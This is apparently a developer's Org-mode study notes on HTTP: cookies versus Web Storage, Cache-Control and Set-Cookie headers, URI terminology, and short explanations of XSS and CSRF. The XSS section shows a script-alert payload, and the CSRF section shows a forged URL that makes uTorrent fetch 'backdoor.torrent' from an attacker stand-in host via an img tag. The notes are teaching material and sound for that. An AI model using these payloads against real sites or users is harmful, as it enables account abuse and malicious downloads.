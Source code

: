 #+TITLE: HTTP

* Table of Contents :TOC_2_gh:
- [[#how-to][How-to]]
- [[#topics][Topics]]
  - [[#web-storage-vs-cookies][Web Storage vs. Cookies]]
  - [[#xss-cross-site-scripting][XSS (Cross-site scripting)]]
  - [[#csrf-cross-site-request-forgery][CSRF (Cross-site request forgery)]]
- [[#reference][Reference]]
  - [[#cache-control][Cache Control]]
  - [[#cookies][Cookies]]
- [[#terminology][Terminology]]
  - [[#url-vs-uri-vs-urn][URL vs URI vs URN]]
  - [[#endpoint][Endpoint]]

* How-to
* Topics
** Web Storage vs. Cookies
- https://auth0.com/docs/security/store-tokens
- https://stackoverflow.com/questions/35291573/csrf-protection-with-json-web-tokens

Does your authn token protect anything to do with money?
- You'll probably want the cookie httpOnly secure option.

Is the level of effort required to implement CSRF protection not worth the assets it's protecting?
- Then the Web Storage might be the right place.

*** Web Storage
There are two types of Web Storage:
- localStorage   :: data persists until explicitly deleted.
- sessionStorage :: Once the window is closed, the storage is deleted.

Web Storage is safe from CSRF attacks, since it doesn't automatically send its contents.

However, there are some disadvantages compared to Cookies:
- sandboxed to a specific domain
- accessible through JS, which means that it's vulnerable to XSS attacks

*** Cookies
Disadvantages compared to Web Storages:
- 4KB of max size (it counts all elements like name, value, expiry date)
- vulnerable to CSRF attacks

** XSS (Cross-site scripting)
- https://en.wikipedia.org/wiki/Cross-site_scripting

An attacker observes that target website contains a reflected XSS vulnerability:
1. Search feature: If no results were found, the page will display the url with the query term, like http://bobssite.org?q=term.
2. Submit a search query with a term like ~<script type='text/javascript'>alert('xss');</script>~
3. An alert box appears (that says ~xss~).
4. The url is ~http://bobssite.org?q=<script%20type='text/javascript'>alert('xss');</script>~
5. The attacker sends an e-mail which contains a link to the forged url.
6. The victim gets the link and executes the attackers script.

** CSRF (Cross-site request forgery)
- https://en.wikipedia.org/wiki/Cross-site_request_forgery

Force a ~.torrent~ file download:
1. uTorrent's web console is accessible at ~localhost:8080~
2. Forge a url make uTorrent download ~backdoor.torrent~ automatically
   - ~http://localhost:8080/gui/?action=add-url&s=http://evil.example.com/backdoor.torrent~
3. Inject the forged url as ~<img>~ tag like: ~<img src="<url>">~
4. The victim opens the page containg the tag and download ~backdoor.torrent~ inadvertently.

* Reference
** Cache Control
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cache-Control
*** Request
#+BEGIN_EXAMPLE
  Cache-Control: max-age=<seconds>
  Cache-Control: max-stale[=<seconds>]
  Cache-Control: min-fresh=<seconds>
  Cache-Control: no-cache 
  Cache-Control: no-store
  Cache-Control: no-transform
  Cache-Control: only-if-cached
#+END_EXAMPLE

*** response
#+BEGIN_EXAMPLE
  Cache-Control: must-revalidate
  Cache-Control: no-cache
  Cache-Control: no-store
  Cache-Control: no-transform
  Cache-Control: public
  Cache-Control: private
  Cache-Control: proxy-revalidate
  Cache-Control: max-age=<seconds>
  Cache-Control: s-maxage=<seconds>
#+END_EXAMPLE

** Cookies
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
- https://stackoverflow.com/questions/1336126/does-every-web-request-send-the-browser-cookies

#+BEGIN_QUOTE
Yes, as long as the URL requested is within the same domain and path defined in the cookie
(and all of the other restrictions -- secure, httponly, not expired, etc) hold,
then the cookie will be sent for every request.
#+END_QUOTE

*** Set-Cookie
#+BEGIN_EXAMPLE
  Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
#+END_EXAMPLE

- https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#Secure_and_HttpOnly_cookies
- Secure   :: The cookies that are set can only be sent over HTTPS
- HttpOnly :: The cookies that are set cannot be retrieved with JS. Only be sent to the designated server.

* Terminology
** URL vs URI vs URN
- https://stackoverflow.com/questions/176264/what-is-the-difference-between-a-uri-a-url-and-a-urn

| Name (Uniform Resource -) | Example                                 | Note                                                                                                         |
|---------------------------+-----------------------------------------+--------------------------------------------------------------------------------------------------------------|
| ~URI~ (Identifier)        | ~https://www.google.co.kr/search?q=uri~ |                                                                                                              |
| ~URL~ (Locator)           | ~https://www.google.co.kr/search~       | Subset of ~URI~, contains only about location                                                                |
| ~URN~ (Name)              | ~urn:google:search:uri~                 | Subset of ~URI~, doesn't necessarily tell you how to locate it on the internet. Usually Prefixed with ~urn:~ |

[[file:_img/screenshot_2017-06-03_15-46-11.png]]

** Endpoint
- https://stackoverflow.com/questions/9807382/what-is-a-web-service-endpoint
- A web ~endpoint~ is ~URL~ that another program would use to communicate with your program.

